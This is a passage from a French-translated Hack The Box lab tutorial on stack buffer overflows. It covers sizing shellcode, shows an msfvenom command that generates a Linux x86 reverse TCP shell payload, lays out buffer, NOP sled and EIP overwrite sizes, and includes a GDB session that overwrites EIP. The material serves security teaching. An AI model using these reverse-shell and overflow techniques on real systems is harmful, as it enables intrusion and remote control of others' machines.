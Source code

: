 Déterminer la longueur du shellcode
==================================

* * * * *

Maintenant, nous devons découvrir combien d'espace nous avons pour que notre shellcode effectue l'action que nous voulons. Il est à la mode et utile pour nous d'exploiter une telle vulnérabilité pour obtenir un reverse shell. Tout d'abord, nous devons déterminer approximativement la taille de notre shellcode que nous allons insérer, et pour cela, nous utiliserons `msfvenom`.

#### Shellcode - Longueur

Shellcode - Longueur

```
dsgsec@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

Aucun encodeur ou badchars spécifié, sortie de charge utile brute
Taille de la charge utile : 68 octets
<SNIP>

```

Nous savons maintenant que notre charge utile sera d'environ 68 octets. Par précaution, nous devrions essayer de prendre une plage plus large si le shellcode augmente en raison de spécifications ultérieures.

Souvent, il peut être utile d'insérer une `no operation instruction` (`NOPS`) avant que notre shellcode ne commence afin qu'il puisse être exécuté proprement. Résumons brièvement ce dont nous avons besoin pour cela :

1. Nous avons besoin d'un total de 1 040 octets pour accéder à `EIP`.
2. Ici, nous pouvons utiliser `100 octets` de `NOP` supplémentaires
3. `150 octets` pour notre `shellcode`.

Shellcode - Longueur

```
    Tampon = "\x55" * (1040 - 100 - 150 - 4) = 786
      NOP = "\x90" * 100
Shellcode = "\x44" * 150
       EIP = "\x66" * 4'

```

#### Amortir

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)

Maintenant, nous pouvons essayer de savoir de combien d'espace nous disposons pour insérer notre shellcode.

#### GDB

GDB

```
(gdb) exécutez $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

Le programme en cours de débogage a déjà été lancé.
Commencer depuis le début ? (o ou n) o

Programme de démarrage : /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66 " * 4')
Le programme a reçu le signal SIGSEGV, Défaut de segmentation.
0x66666666 en ?? ()

```

#### Amortir

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)